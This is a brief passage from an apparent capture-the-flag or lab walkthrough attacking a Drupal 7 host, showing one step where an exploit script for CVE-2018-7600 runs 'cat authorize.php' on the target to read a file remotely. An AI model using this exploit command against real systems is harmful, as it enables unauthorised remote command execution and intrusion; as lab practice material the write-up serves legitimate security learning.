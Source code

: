 ![](./IMG/9.png)

5. Check the content of authorize.php
>  I can't find anything interesting from this file 
```
python drupa7-CVE-2018-7600.py -c 'cat authorize.php' http://10.129.48.89
```
